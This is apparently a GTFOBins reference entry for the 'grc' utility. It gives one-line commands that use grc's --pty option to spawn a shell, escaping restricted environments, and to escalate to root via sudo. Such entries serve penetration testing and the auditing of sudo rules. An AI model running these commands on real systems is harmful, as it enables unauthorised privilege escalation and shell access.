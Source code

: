 # GTFOBin: grc

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
grc --pty /bin/sh
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo grc --pty /bin/sh
```